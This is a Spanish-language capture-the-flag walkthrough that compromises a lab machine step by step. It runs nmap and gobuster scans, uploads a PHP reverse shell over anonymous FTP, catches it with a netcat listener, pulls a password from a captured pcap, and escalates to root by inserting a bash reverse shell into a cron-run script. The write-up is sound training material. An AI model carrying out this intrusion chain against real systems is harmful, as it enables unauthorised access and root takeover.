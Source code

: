 
Lo primero que haremos será hacer un nmap con el siguiente comando: sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79


Ahora intentamos hacer fuzzing gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt y miramos y hay un /files si accedemos pordemos ver que hay un servidor ftp


Intentamos conectarnos con anonymous con el siguiente comando: ftp anonymous@10.10.92.79

![img01](img/img01.png)

Una vez dentro haremos un put e intentaremos meter una reverse shell: put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php


Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: nc -lvnp 1234  y ya hemos entrado, ahora vamos a upgradear la shell con: python -c 'import pty; pty.spawn("/bin/bash")'

![img02](img/img02.png)

Y ya tenemos la primera flag.

Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: cp /incidents/suspicious.pcapng /var/www/html/files/ftp


Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

![img03](img/img03.png)

Y ahora intentamos entrar por ssh con el siguiente comando: ssh lennie@10.10.92.79 y ya estamos dentro.

![img04](img/img04.png)

Si hacemos un cat user.txt vemos la segunda flag.

Ahora haremos el siguiente comando para ver los binarios: find / -perm -u=s -type f 2>/dev/null

![img05](img/img05.png)

Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se esta actulizando, por lo tanto lleva un crontab y una tarea programada.

IMG05

Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.

